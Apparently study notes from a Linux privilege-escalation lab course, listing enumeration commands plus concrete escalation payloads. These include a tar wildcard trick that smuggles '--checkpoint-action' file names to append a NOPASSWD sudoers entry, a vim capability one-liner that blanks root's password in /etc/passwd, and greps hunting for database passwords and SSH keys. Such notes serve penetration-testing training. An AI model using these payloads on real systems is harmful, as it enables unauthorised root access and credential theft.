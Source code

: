 # Introduction to Linux Privilege Escalation


when we audit a linux system we have to look for the OS version, the Kernel version, and running services

to have root processes

```sh
ps aux | grep root
```

also Installed Packages and Versions, Logged in users

try to ls home ...etc

look for ssh keys 

```sh
ls -l ~/.ssh
```

bash history 
try `sudo -l`

try to read /etc/passwd maybe we can find a hash 
See cron JOBs that's what i need to see.

```sh
ls -la /etc/cron.daily/
```
File Systems & Additional Drives wirh `lsblk`

Set uid and getgid and writable permission files 
```bash
find / -path /proc -prune -o -type d -perm -o+w 2>/dev/null
```
for files 
```sh
find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null
```
## OS info 

```bash
cat /cat /etc/os-release
echo $PATH
env
uname -a
lscpu  # cpu version
cat /etc/shells
find / -type f -name ".*" -exec ls -l {} \; 2>/dev/null | grep htb-student # hidden files
find / -type d -name ".*" -ls 2>/dev/null # hidden directories
ls -l /tmp /var/tmp /dev/shm
```
## Linux Services & Internals Enumeration

check ip a and ip route 

cat /etc/hosts

check lastlogs

check this command w and history
check if there is any history file

```bash
find / -type f \( -name *_hist -o -name *_history \) -exec ls -l {} \; 2>/dev/null
```

check the crontab

    ls -la /etc/cron.daily/


good command t check for gtobin and installed packets 

```bash
for i in $(curl -s https://gtfobins.github.io/ | html2text | cut -d" " -f1 | sed '/^[[:space:]]*$/d');do if grep -q "$i" installed_pkgs.list;then echo "Check GTFO for: $i";fi;done
```

look for configuration files 

```bash
find / -type f \( -name *.conf -o -name *.config \) -exec ls -l {} \; 2>/dev/null
```

find scripts 
```bash
find / -type f -name "*.sh" 2>/dev/null | grep -v "src\|snap\|share"
```

## Credential Hunting

```bash
cat wp-config.php | grep 'DB_USER\|DB_PASSWORD'

find / ! -path "*/proc/*" -iname "*config*" -type f 2>/dev/null

ls ~/.ssh

find / -type f -name "wp-config.php" -exec grep -H "DB_USER\|DB_PASSWORD" {} \; 2>/dev/null
```

## TAR abuse 

for example in tar command if we have a wild card used as root, or in a cron job example 

```bash
#
#
mh dom mon dow command
*/01 * * * * cd /home/htb-student && tar -zcf /home/htb-student/backup.tar.gz *
```

if we write this 

```bash
htb-student@NIX02:~$ echo 'echo "htb-student ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > root.sh
htb-student@NIX02:~$ echo "" > "--checkpoint-action=exec=sh root.sh"
htb-student@NIX02:~$ echo "" > --checkpoint=1
```

 --checkpoint=1 and --checkpoint-action=exec=sh root.sh is passed to tar as command-line options and the script if executed

 ## Special Permissions

 The Set User ID upon Execution (setuid) permission can allow a user to execute a program or script with the permissions of another user, typically with elevated privileges. The setuid bit appears as an s.

 ```bash
 find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null

```

The Set-Group-ID (setgid) permission is another special permission that allows us to run binaries as if we were part of the group that created them. These files can be enumerated using the following command

```bash
find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null
```

find capabilities :

```bash
find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \;
```

payload for vim capabilities for cap_dac_override+eip

```bash
echo -e ':%s/^root:[^:]*:/root::/\nwq!' | /usr/bin/vim.basic -es /etc/passwd
```

## CronJobs

Cron jobs can also be set to run one time (such as on boot). They are typically used for administrative tasks such as running backups, cleaning up directories, etc. The crontab command can create a cron file, which will be run by the cron daemon on the schedule specified. When created, the cron file will be created in /var/spool/cron for the specific user that creates it. Each entry in the crontab file requires six items in the following order: minutes, hours, days, months, weeks, commands. For example, the entry 0 */12 * * * /home/admin/backup.sh would run every 12 hours.

We can confirm that a cron job is running using pspy, a command-line tool used to view running processes without the need for root privileges. We can use it to see commands run by other users, cron jobs, etc. It works by scanning procfs.

find writable files 

```bash
find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null
```

## LXC

LXC  or linux container is an operating system-level virtualization technique that allows multiple Linux systems to run in isolation from each other on a single host by owning their own processes but sharing the host system kernel for them. 

THe first step is to verify if we belong to the lxd group.

with id
```bash
container-user@nix02:~$ id

uid=1000(container-user) gid=1000(container-user) groups=1000(container-user),116(lxd)
```
Then download a linux template, and import the image.


```bash
lxc image import ubuntu-template.tar.xz --alias ubuntutemp
container-user@nix02:~$ lxc image list

+-------------------------------------+--------------+--------+-----------------------------------------+--------------+-----------------+-----------+-------------------------------+
|                ALIAS                | FINGERPRINT  | PUBLIC |               DESCRIPTION               | ARCHITECTURE |      TYPE       |   SIZE    |          UPLOAD DATE          |
+-------------------------------------+--------------+--------+-----------------------------------------+--------------+-----------------+-----------+-------------------------------+
| ubuntu/18.04 (v1.1.2)               | 623c9f0bde47 | no    | Ubuntu bionic amd64 (20221024_11:49)     | x86_64       | CONTAINER       | 106.49MB  | Oct 24, 2022 at 12:00am (UTC) |
+-------------------------------------+--------------+--------+-----------------------------------------+--------------+-----------------+-----------+-------------------------------+
```